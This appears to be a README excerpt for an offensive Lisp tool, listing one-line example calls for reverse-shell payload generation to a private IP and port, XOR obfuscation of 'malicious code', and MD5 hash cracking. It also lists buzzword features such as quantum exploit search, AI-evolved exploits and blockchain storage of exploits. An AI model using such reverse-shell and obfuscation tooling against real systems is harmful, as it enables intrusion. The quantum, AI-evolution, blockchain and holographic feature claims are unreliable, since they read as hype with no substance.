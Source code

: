 ### Exploitation
```lisp
;; Payload generation
(payload "reverse_shell" host "192.168.1.100" port 4444)

;; Code obfuscation
(xor "secret message" "key")
(obfuscate "malicious code" "xor")

;; Hash cracking
(crack "5d41402abc4b2a76b9719d911017c592" (list "hello" "world") "md5")
```

### Quantum-Inspired Features
```lisp
;; Quantum search for exploits
(quantum-search exploit-space target)

;; Quantum exploit generation
(quantum-exploit target-info)

;; Quantum superposition of payloads
(quantum-superposition payload-list)
```

### AI-Powered Evolution
```lisp
;; Evolve exploits using genetic programming
(evolve-exploit base-exploit target 20)

;; Neural network obfuscation
(neural-obfuscate "malicious code")

;; AI-powered code generation
(ai-generate-exploit target-info)
```

### Blockchain Persistence
```lisp
;; Store exploits on blockchain
(blockchain-store exploit-code)

;; Retrieve from blockchain
(blockchain-retrieve hash)

;; Verify blockchain integrity
(blockchain-verify)
```

### Holographic Memory
```lisp
;; Store code in holographic memory
(holographic-store code)

;; Retrieve from holographic memory
(holographic-retrieve key)

;; 3D data reconstruction
(reconstruct-hologram pattern beam)
```
